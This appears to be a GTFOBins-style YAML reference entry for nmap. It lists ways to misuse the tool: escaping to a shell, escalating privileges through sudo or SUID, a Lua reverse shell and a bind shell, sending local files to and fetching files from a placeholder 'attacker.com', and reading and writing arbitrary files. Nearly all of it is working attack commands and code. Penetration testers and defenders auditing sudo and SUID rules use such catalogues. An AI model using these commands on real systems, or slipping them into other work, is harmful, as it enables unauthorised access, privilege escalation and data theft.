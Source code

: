 ```yaml
---
functions:
  shell:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        nmap --interactive
        nmap> !sh
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp)
        echo 'local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        while true do
          local r,x=t:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));t:send(b);
        end;
        f:close();t:close();' > $TF
        nmap --script=$TF
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        while true do
          local r,x=c:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));c:send(b);
        end;c:close();f:close();' > $TF
        nmap --script=$TF
  file-upload:
    - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        LFILE=file_to_send
        nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
        local d=f:read("*a")
        io.close(f);
        local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        t:send(d);
        t:close();' > $TF
        nmap --script=$TF
  file-download:
    - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        TF=$(mktemp -d)
        LFILE=file_to_save
        nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        local d,x=c:receive("*a");
        c:close();
        local f=io.open(os.getenv("LFILE"), "wb");
        f:write(d);
        io.close(f);' > $TF
        nmap --script=$TF
  file-write:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
        nmap --script=$TF
  file-read:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
        nmap --script=$TF
  sudo:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        sudo nmap --interactive
        nmap> !sh
  limited-suid:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        ./nmap --script=$TF
---
```

